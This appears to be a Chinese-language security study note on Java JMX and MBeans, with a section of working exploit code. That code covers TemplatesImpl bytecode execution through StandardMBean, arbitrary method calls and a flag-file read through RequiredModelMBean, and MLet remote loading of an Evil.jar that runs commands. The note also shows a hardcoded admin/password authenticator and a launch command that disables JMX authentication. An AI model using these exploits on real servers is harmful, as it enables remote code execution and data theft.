







# JMX

JMX (Java Management Extensions) Java管理扩展

JMX经常被称为“Java 版本”的SNMP（Simple Network Management Protocol）。SNMP主要用于监控如交换机或路由器等网络组件。类似地，JMX用于检测Java程序，如应用程序的堆内存使用量、线程数、VM概要等。



| 层次            | 描述                                                         |
| --------------- | ------------------------------------------------------------ |
| Instrumentation | 主要包括了一系列的接口定义和描述如何开发`MBean`的规范。在`JMX`中`MBean`代表一个被管理的资源实例，通过`MBean`中暴露的方法和属性，外界可以**获取被管理的资源的状态和操纵`MBean`的行为**。 |
| Agent           | 用来管理相应的资源，并且为远端用户提供访问的接口。该层的核心是`MBeanServer`,**所有的`MBean`都要向它注册，才能被管理**。注册在`MBeanServer`上的`MBean`并不直接和远程应用程序进行通信，他们通过协议适配器（`Adapter`）和连接器（`Connector`）进行通信。 |
| Distributed     | 定义了一系列用来访问Agent的接口和组件，包括`Adapter`和`Connector`的描述。注意，`Adapter` 和`Connector`的区别在于：`Adapter`是使用某种`Internet`协议来与` Agent`获得联系，`Agent`端会有一个对象 (`Adapter`)来处理有关协议的细节。比如`SNMP Adapter`和`HTTP Adapter`。而`Connector`则是使用类似`RPC`的方式来访问`Agent`，在`Agent`端和客户端都必须有这样一个对象来处理相应的请求与应答。比如`RMI Connector`。 |

## MBeans

JMX除了检测程序的运行情况，实际上提供了更强大的功能 —— MBeans（Managed Beans）

MBean代表一个被管理的资源实例，通过MBean暴露的方法和属性，外界可以获取被管理的资源的状态和操作MBean的行为。MBean遵循JXM标准的设计标准，允许使用者像管理Bean那样来管理资源。

MBean对象的创建，跟POJO一样

* 实现一个接口
* 提供默认的无参构造器
* 实现属性的`getter/setter`

```java
package com.demo.MBeans;

public interface HelloMBean {
    public String getName();
    public void setName(String newName);
    public String sayHello();
}
```

```java
package com.demo.MBeans;

public class Hello implements HelloMBean {
    private String name = "taco";

    public String getName() {
        System.out.println("getName called");
        return this.name;
    }

    public void setName(String newName) {
        System.out.println("setName called");
        this.name = newName;
    }

    @Override
    public String sayHello() {
        System.out.println("sayHello called");
        return "hello " + name;
    }
}
```

## MBean Server

MBean Server是用于管理MBean，并代理外界对它们的访问。

可以在MBean Server注册MBean，需要遵循特定的命名规则。

默认每个Java进程都有一个`MBean Server`服务在运行，通过`ManagementFactory.getPlatformMBeanServer();`可以获取

```java
package com.demo.MBeanClient;

import javax.management.MBeanServer;
import javax.management.ObjectInstance;
import javax.management.ObjectName;
import java.lang.management.ManagementFactory;

public class MBeanClient {
    public static void main(String[] args) throws Exception {
        MBeanServer server = ManagementFactory.getPlatformMBeanServer();
        System.out.println(server.getMBeanCount());  // 22

        for (Object obj : server.queryMBeans(new ObjectName("*:*"), null)) {
            System.out.println(((ObjectInstance) obj).getObjectName());
        }
    }
}
```



每个MBean都对应唯一一个ObjectName

ObjectName的格式为`domain:type=MBean_type,name=MBean_name`

(虽然命名格式是这样，但好像都可以随便写)

### Register MBean

```java
Hello mbean = new Hello();
// MBean对象名 "domain:type=MBean_type,name=whatever"
ObjectName mbeanName = new ObjectName("com.demo.MBeans:type=HelloMBean,name=test");
MBeanServer server = ManagementFactory.getPlatformMBeanServer();
server.registerMBean(mbean, mbeanName);
```

### Export Service

将JMX服务对外暴露

```java
LocateRegistry.createRegistry(2222);
// URL路径的结尾可以随意指定，但如果需要用Jconsole来进行连接，则必须使用jmxrmi
JMXServiceURL url = new JMXServiceURL("service:jmx:rmi:///jndi/rmi://localhost:2222/jmxrmi");
JMXConnectorServer jcs = JMXConnectorServerFactory.newJMXConnectorServer(url, null, server);
jcs.start();
```

设置身份验证：

```java
// 设置身份验证参数
Map<String, Object> environment = new HashMap<>();
environment.put(JMXConnectorServer.AUTHENTICATOR, new MyAuthenticator());
JMXConnectorServer jcs = JMXConnectorServerFactory.newJMXConnectorServer(url, environment, server);
```

```java
package com.demo.MBeanExample;

import javax.management.remote.JMXAuthenticator;
import javax.security.auth.Subject;
import javax.security.auth.login.LoginException;

public class MyAuthenticator implements JMXAuthenticator {
    @Override
    public Subject authenticate(Object credentials) {
        if (!(credentials instanceof String[])) {
            throw new SecurityException("Invalid credentials");
        }

        String[] creds = (String[]) credentials;
        String username = creds[0];
        String password = creds[1];

        try {
            // 使用您选择的身份验证机制来验证用户名和密码
            boolean authenticated = performAuthentication(username, password);

            if (authenticated) {
                // 在这里可以根据需要返回一个 Subject 对象
                return new Subject();
            } else {
                throw new SecurityException("Authentication failed");
            }
        } catch (LoginException e) {
            throw new SecurityException("Authentication error: " + e.getMessage());
        }
    }

    private boolean performAuthentication(String username, String password) throws LoginException {
        // 在这里实现身份验证逻辑
        // 可以使用不同的身份验证机制，如基于数据库、LDAP、文件等
        String validUsername = "admin";
        String validPassword = "password";

        return username.equals(validUsername) && password.equals(validPassword);
    }
}
```

或者打jar包后，添加启动参数

```sh
java -Dcom.sun.management.jmxremote.port=2222 -Dcom.sun.management.jmxremote.local.only=false    -Dcom.sun.management.jmxremote.authenticate=false -Dcom.sun.management.jmxremote.ssl=false -jar JMX-1.0-SNAPSHOT.jar
```

这种方式需要让程序暂停，如在程序末尾添加sleep或等待用户输入

```java
// Keep the application running until user enters something
System.out.println("Press any key to exit");
System.in.read();
```

#### JMX Connector

远程客户端可以使用`JMX Connector`来连接，底层基于RMI

```java
JMXServiceURL serviceURL = new JMXServiceURL("service:jmx:rmi:///jndi/rmi://127.0.0.1:2222/jmxrmi");
Map env = new Properties();
//env.put(JMXConnector.CREDENTIALS, new String[]{"admin", "password"}); // 身份验证

MBeanServerConnection con = JMXConnectorFactory.connect(serviceURL, env).getMBeanServerConnection();

for (ObjectInstance obj : con.queryMBeans(new ObjectName("*:*"), null)) {
    System.out.println(obj.getObjectName());
}
```

#### JMX Adaptor

另外一个连接方式是`JMX Adaptor`，不同于`JMX Connector`的RMI-RPC连接方式，`Adaptor`可能使用HTTP进行连接，通过HTML或JSON进行通信。通常在客户端不是Java程序，不支持Java RMI，才使用这种连接方式。缺点是由于通过HTML或JSON传输，`JMX Adaptor`可能不支持一些类的序列化。

#### Jconsole

Jconsole是JDK自带的JMX服务连接工具，可以连接到本地或远程的Java进程。





查看属性能够调用对应属性的`getter`，修改属性调用对应`setter`





## Way To Attack

看到这如何利用MBean也很显然了，即调用恶意MBean的方法/getter/setter

### StandardMBean

`javax.management.StandardMBean`

看看官方的[描述](https://docs.oracle.com/javase/8/docs/api/javax/management/StandardMBean.html)

> An MBean whose management interface is determined by reflection on a Java interface.
>
> By making a DynamicMBean out of an MBean, this class makes it possible to select any interface implemented by the MBean as its management interface, provided that it complies with JMX patterns (i.e., attributes defined by getter/setter etc...).

`StandardMBean`可以用于创建`MBean`，通过反射获取给定接口类的属性和方法。

因此我们可以把任意类当成MBean来创建，并调用他们实现接口中定义的方法（当然类需要实现`Serializable`接口）

`StandardMBean`的构造器调用了`construct`来创建`DynamicBean`

```java
public <T> StandardMBean(T implementation, Class<T> mbeanInterface)
    throws NotCompliantMBeanException {
    construct(implementation, mbeanInterface, false, false);
}
```



需要传进一个实现类的实例和其接口

`TemplatesImpl`实现的接口`Templates`中定义的两个方法刚好可以利用

`newTransformer`、`getOutputProperties`

同时`getOutputProperties`也满足MBean属性的`getter`方法

```java
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;

import javax.management.*;
import javax.management.remote.JMXConnectorFactory;
import javax.management.remote.JMXServiceURL;
import javax.xml.transform.Templates;
import java.lang.reflect.Field;
import java.util.Map;
import java.util.Properties;

public class Client {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setValue(templates, "_bytecodes", new byte[][]{genPayload("calc")});
        setValue(templates, "_name", "1");
        setValue(templates, "_tfactory", null);


        JMXServiceURL serviceURL = new JMXServiceURL("service:jmx:rmi:///jndi/rmi://127.0.0.1:2222/jmxrmi");
        Map env = new Properties();

        MBeanServerConnection con = JMXConnectorFactory.connect(serviceURL, env).getMBeanServerConnection();

        ObjectName objectName = new ObjectName("Test:type=test");

        String className = StandardMBean.class.getName();
        String[] ctorArgTypes = new String[] { Object.class.getName(), Class.class.getName() };
        Object[] ctorArgs = new Object[] { templates, Templates.class };

        con.createMBean(className, objectName, ctorArgs, ctorArgTypes);
        // invokes getOuputProperties() indirectly via attribute getter
        con.getAttribute(objectName, "OutputProperties");
        // invoke getOutputProperties() directly
        // con.invoke(objectName, "getOutputProperties", new Object[0], new String[0]);
        // invoke newTransformer() directly
        // con.invoke(objectName, "newTransformer", new Object[0], new String[0]);

        con.unregisterMBean(objectName);
    }

    public static void setValue(Object obj, String name, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static byte[] genPayload(String cmd) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\"" + cmd + "\");");
        clazz.addConstructor(constructor);
        return clazz.toBytecode();
    }
}
```

### RequiredModelBean

`javax.management.modelmbean.RequiredModelMBean`

看一下官方的[描述](https://docs.oracle.com/javase/8/docs/api/javax/management/modelmbean/RequiredModelMBean.html)

> Java resources wishing to be manageable instantiate the RequiredModelMBean using the MBeanServer's createMBean method.
>
> The resource then sets the MBeanInfo and Descriptors for the RequiredModelMBean instance. The attributes and operations exposed via the ModelMBeanInfo for the ModelMBean are accessible from MBeans, connectors/adaptors like other MBeans.Through the Descriptors, values and methods in the managed application can be defined and mapped to attributes and operations of the ModelMBean. This mapping can be defined in an XML formatted file or dynamically and programmatically at runtime. 

相对于StandardMBean，ModelMBean更加灵活，可以修改管理的资源为已有的Java类。`RequiredModelMBean`允许我们通过提供`ModelMBeanInfo`来指定MBean的属性和操作。这意味着我们可以定义不符合MBean的设计模式的方法，即就算其接口类没有该方法，我们也可以调用。

#### Invoking Arbitrary Instance Methods

以`java.io.File#listFiles`为例

```java
JMXServiceURL serviceURL = new JMXServiceURL("service:jmx:rmi:///jndi/rmi://127.0.0.1:2222/jmxrmi");
Map env = new Properties();
MBeanServerConnection con = JMXConnectorFactory.connect(serviceURL, env).getMBeanServerConnection();

ObjectName objectName = new ObjectName("Test:type=test,name=2");

Object file = new File(".");

Method method = File.class.getMethod("listFiles", null);

ModelMBeanOperationInfo[] ops = new ModelMBeanOperationInfo[]{
    new ModelMBeanOperationInfo("setManagedResource",
                                ModelMBean.class.getMethod("setManagedResource", Object.class, String.class)),
    new ModelMBeanOperationInfo("listFiles", method)
};

ModelMBeanInfoSupport model = new ModelMBeanInfoSupport("test", "test", null, null, ops, null);

String className = RequiredModelMBean.class.getName();
String[] ctorArgTypes = new String[]{ModelMBeanInfo.class.getName()};
Object[] ctorArgs = new Object[]{model};
con.createMBean(className, objectName, ctorArgs, ctorArgTypes);

// set the managed resource to the serializable File object
con.invoke(
    objectName,
    "setManagedResource",
    new Object[]{file, "objectReference"},
    new String[]{Object.class.getName(), String.class.getName()}
);

// invoke listFiles() on remote File via RequiredModelMBean
File[] files = (File[]) con.invoke(objectName, "listFiles", new Object[0], new String[0]);
for (File f : files) {
    System.out.println(f);
}
try {
    con.unregisterMBean(objectName);
} catch (InstanceNotFoundException e) {
}
```

#### Invoking Arbitrary Static Methods

以`JavaUtils`为例

```java
public static ModelMBeanOperationInfo createModelMBeanOperationInfo(String declaringClass, String methodName, MBeanParameterInfo[] signature) {
    Map<String, Object> fields = new HashMap<String, Object>() {
        {
            {
                put("name", methodName);
                put("displayName", methodName);
                put("class", declaringClass);
                put("role", "operation");
                put("descriptorType", "operation");
            }
        }
    };
    Descriptor descriptor = new ImmutableDescriptor(fields.keySet().toArray(new String[0]), fields.values().toArray());
    return new ModelMBeanOperationInfo(
        methodName,
        null,
        signature,
        declaringClass,
        MBeanOperationInfo.UNKNOWN,
        descriptor
    );
}

public static void RegisterModelMBean() throws Exception {
    JMXServiceURL serviceURL = new JMXServiceURL("service:jmx:rmi:///jndi/rmi://127.0.0.1:2222/jmxrmi");
    Map env = new Properties();
    MBeanServerConnection con = JMXConnectorFactory.connect(serviceURL, env).getMBeanServerConnection();

    ObjectName objectName = new ObjectName("Test:type=test,name=3");

    ModelMBeanOperationInfo[] ops = new ModelMBeanOperationInfo[]{
        new ModelMBeanOperationInfo("setManagedResource",
                                    ModelMBean.class.getMethod("setManagedResource", Object.class, String.class)),
        createModelMBeanOperationInfo(JavaUtils.class.getName(), "getBytesFromFile", new MBeanParameterInfo[]{
            new MBeanParameterInfo(null, String.class.getName(), null)
        })
    };

    ModelMBeanInfoSupport model = new ModelMBeanInfoSupport("test", "test", null, null, ops, null);

    String className = RequiredModelMBean.class.getName();
    String[] ctorArgTypes = new String[]{ModelMBeanInfo.class.getName()};
    Object[] ctorArgs = new Object[]{model};
    con.createMBean(className, objectName, ctorArgs, ctorArgTypes);

    // set the managed resource to the serializable File object
    con.invoke(
        objectName,
        "setManagedResource",
        new Object[]{"", "objectReference"},
        new String[]{Object.class.getName(), String.class.getName()}
    );

    byte[] bytes = (byte[]) con.invoke(objectName,
                                       "getBytesFromFile",
                                       new Object[]{"E:/flag"},
                                       new String[] {String.class.getName()});
    System.out.println(new String(bytes));
    try {
        con.unregisterMBean(objectName);
    } catch (InstanceNotFoundException e) {
    }
}
```

### MLet

`javax.management.loading.MLet`是一个MBean，其实现了`MLetMBean`接口

看一下这个类的描述

> Allows you to instantiate and register one or several MBeans in the MBean server
> coming from a remote URL. M-let is a shortcut for management applet. The m-let service does this by loading an m-let text file, which specifies information on the MBeans to be obtained. The information on each MBean is specified in a single instance of a tag, called the MLET tag. The location of the m-let text file is specified by a URL

支持远程加载MBean

```java
Loads a text file containing MLET tags that define the MBeans to
be added to the MBean server. The location of the text file is specified by
a URL. The MBeans specified in the MLET file will be instantiated and
registered in the MBean server.
public Set<Object> getMBeansFromURL(URL url)
```

连接到目标JMX服务，创建MLet实例并调用其`getMBeansFromURL`，JMX服务会下载MLet文件中引用的JAR文件，并注册JAR中的MBean

```java
public interface EvilMBean {
    public String runCMD(String cmd);
}
```

```java
import java.io.BufferedReader;
import java.io.InputStreamReader;

public class Evil implements EvilMBean {
    @Override
    public String runCMD(String cmd) {
        try {
            Process proc = Runtime.getRuntime().exec(cmd);
            StringBuilder result = new StringBuilder();
            BufferedReader reader = new BufferedReader(new InputStreamReader(proc.getInputStream()));
            String line;
            while ((line = reader.readLine()) != null) {
                result.append(line).append("\n");
            }
            reader.close();
            return result.toString();
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }
}

```

`mlet.txt`

```txt
<html><mlet code="Evil" archive="Evil.jar" name="EvilMBean:name=evil,id=1" codebase="http://127.0.0.1:4141"></mlet></html>
```

制作`Evil.jar`

```sh
jar cvf Evil.jar .\Evil.class .\EvilMBean.class
```

将`mlet.txt`和`Evil.jar`放在web服务目录，`python -m http.server 4141`开启服务

```java
JMXServiceURL serviceURL = new JMXServiceURL("service:jmx:rmi:///jndi/rmi://127.0.0.1:2222/jmxrmi");
Map env = new Properties();
MBeanServerConnection con = JMXConnectorFactory.connect(serviceURL, env).getMBeanServerConnection();
ObjectInstance bean = null;
ObjectInstance evil = con.createMBean("javax.management.loading.MLet", null);
Object res = con.invoke(evil.getObjectName(), "getMBeansFromURL", new Object[]{
    "http://127.0.0.1:4141/mlet.txt"
}, new String[]{String.class.getName()});
HashSet res_set = (HashSet) res;
Object obj = res_set.iterator().next();
if (obj instanceof InstanceAlreadyExistsException) {
    // 恶意mbean已经存在，则直接获取
    bean = con.getObjectInstance(new ObjectName("EvilMBean:name=evil,id=1"));
} else if (obj instanceof Exception) {
    throw ((Exception) obj);
} else {
    bean = ((ObjectInstance) obj);
}
System.out.println(con.invoke(bean.getObjectName(), "runCMD", new Object[]{"dir"}, new String[]{String.class.getName()}));
try {
    con.unregisterMBean(new ObjectName("DefaultDomain:type=MLet"));
    con.unregisterMBean(new ObjectName("EvilMBean:name=evil,id=1"));
} catch (InstanceNotFoundException e) {
}
```

缺点：需要设置`jmx.remote.x.mlet.allow.getMBeansFromURL=true`才能调用`getMBeansFromURL`

### RMI Deserial

由于JMX Connector是基于RMI的，因此对于RMI的攻击同样适用于这里。

远程调用MBean方法时，方法参数在服务端经过`MarshalledObject.readObject()`反序列化

JMX对参数类型的验证并不严格，传入`MBeanServerConnection.invoke`的两个参数分别是方法参数和参数类型，只需要参数类型校验成功即可。

ysoserial中集成了这种攻击方法的payload

`ysoserial.exploit.JMXInvokeMBean`

## Tools

https://github.com/qtc-de/beanshooter
